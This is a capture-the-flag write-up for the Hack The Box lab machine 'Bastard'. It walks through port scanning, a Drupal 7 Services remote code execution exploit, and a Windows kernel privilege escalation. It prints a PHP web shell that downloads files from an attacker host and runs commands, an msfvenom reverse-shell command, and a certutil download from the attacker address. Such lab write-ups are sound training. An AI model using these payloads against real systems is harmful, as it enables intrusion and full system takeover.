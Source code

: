 ```yaml
---
title: "HTB Bastard"
permalink: /writeups/bastard
location: default
---
```


# HTB Bastard

**Machine Information**

	IP : 10.10.10.9
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`. 

```
rustscan -a 10.10.10.9 -- -sC -sV
```

This should reveal three open ports: `80`, `135`, and `49154`.

```
PORT      STATE SERVICE REASON  VERSION
80/tcp    open  http    syn-ack Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**Drupal Exploit**

The `nmap` output shows that the web server is running `Drupal 7` which can be confirmed using the `CHANGELOG.txt` file.

> http://10.10.10.9/CHANGELOG.txt

Use `searchsploit` to look for exploits for `Drupal 7`.

```
searchsploit drupal 7
```

This will reveal a PHP exploit that results in remote code execution.

```
Drupal 7.x Module Services - Remote Code Execution | php/webapps/41564.php
```

Reviewing the exploit shows it is looking for the `/rest_endpoint` endpoint but trying to visit this page returns a 404 error. After running `dirsearch` though we can see an endpoint at `/rest`.

```
dirsearch -u http://10.10.10.9
```

This can be confirmed by visiting the page in a browser.

> http://10.10.10.9/rest

```
Services Endpoint "rest_endpoint" has been setup successfully.
```

Modify the exploit to use our target IP and endpoint. We want to set the payload to a reverse shell.

```php
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
    if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.4:8000/" . $_REQUEST['fupload']));
    };
    if (isset($_REQUEST['fexec'])) {
        echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
    };
?>
EOD;

$file = [
    'filename' => 'shell.php',
    'data' => $phpCode
];
```

Run the exploit to upload a web shell. We can use the web shell to run commands on the target system.

```
http://10.10.10.9/shell.php?fexec=whoami
```

To get a full shell we will create a payload using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Use our web shell to upload this to our target machine. Start a new `netcat` listener and run the executable.

```
http://10.10.10.9/shell.php?fexec=certutil -urlcache -f http://10.10.14.4/shelly.exe shelly.exe
```

```
http://10.10.10.9/shell.php?fexec=shelly.exe
```

Success!

```
C:\inetpub\drupal-7.54>whoami
nt authority\iusr
```

The user flag can be found in the following directory:

```
C:\Users\dimitris\Desktop\user.txt
```

### Privilege Escalation

Checking `systeminfo` shows that no hotfixes have been applied so the machine is likely vulnerable.

```
Hotfix(s):                 N/A
```

Upload the `Chimichurri.exe` exploit to the target machine. It can be obtained from the following link:

> https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe

Transfer it to the target machine and start a new `netcat` listener. Once listening run the exploit to get an elevated shell.

```
.\MS10-059.exe 10.10.14.4 9001
```

Success!

```
C:\temp>whoami
nt authority\system
```

The root flag can be retrieved from the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
